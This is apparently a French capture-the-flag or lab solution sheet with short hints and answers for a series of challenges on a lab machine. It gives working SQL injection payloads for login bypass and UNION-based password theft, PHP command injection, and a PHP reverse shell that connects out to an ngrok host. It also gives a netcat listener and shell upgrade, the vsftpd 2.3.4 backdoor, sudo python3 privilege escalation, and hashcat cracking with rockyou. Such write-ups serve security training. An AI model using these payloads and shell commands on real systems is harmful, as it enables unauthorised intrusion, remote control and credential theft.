 # Injection SQL 1 - Passer le login

mettre " pour avoir une erreur


* Solution :
    Mettre en username : " OR 1=1 OR ""="

Mais on est login en tant que "admin", pas l'autre user !

* Indice 1 :
    Injection SQL

* Indice 2 : 
    SELECT * FROM data.users WHERE username = "$username" AND password="$password"

# Injection SQL 2 - Récupérer le mot de passe de l'autre utilisateur

* Indice 1 : 
    SELECT * FROM data.users WHERE username = "$username" AND password="$password"
    (dur sans connaître le nom de la base !)

SELECT * FROM data.users WHERE username = "a" AND password="" UNION SELECT 1,password as username,2 FROM data.users WHERE username!="admin"

* Solution :

    Mettre en user : (n'importe quoi)

    Mettre en mdp : " UNION SELECT 1,password as username,2 FROM data.users WHERE username!="admin

# RCE PHP - Ping

* Solution :

    ;ls
    ;whoami

reverse shell : https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

nc -l -p 12345 

ngrok tcp 12345

php -r '$sock=fsockopen("2.tcp.ngrok.io",15705);exec("/bin/sh -i <&3 >&3 2>&3");'

upgrade : 
python3 -c 'import pty;pty.spawn("/bin/bash")';

# ftp anonymous

* Solution : ftp 10.1.0.188

    Mettre 'anonymous' en nom

# vstfp:2.3.4 backdoor

* Solution :

    ftp 10.1.0.188

    Connected to 10.1.0.188.
    220 (vsFTPd 2.3.4)
    Name (10.1.0.188:root): ANYTHINGHERE:)
    331 Please specify the password.
    Password:
    ^C
    421 Service not available, remote server has closed connection


    nc -vn 10.1.0.188 6200

    Connection to 10.1.0.188 6200 port \[tcp/*\] succeeded!


    ls ~

    flag.txt


    cat ~/flag.txt


# PrivEsc : Sudo
sudo -l

User www-data may run the following commands on machine1:
    (root) NOPASSWD: /usr/bin/python3

* Solution :
    sudo python3 -c "import os;os.system('whoami')"
    sudo python3 -c "import os;os.system('bash')"

# Hash root
ls ~

pense_bete.txt

cat ~/pense_bete.txt

* Solution :

    hashcat -m0 -O flag /usr/share/wordlists/rockyou.txt

    (hashcat -m0 --show flag)
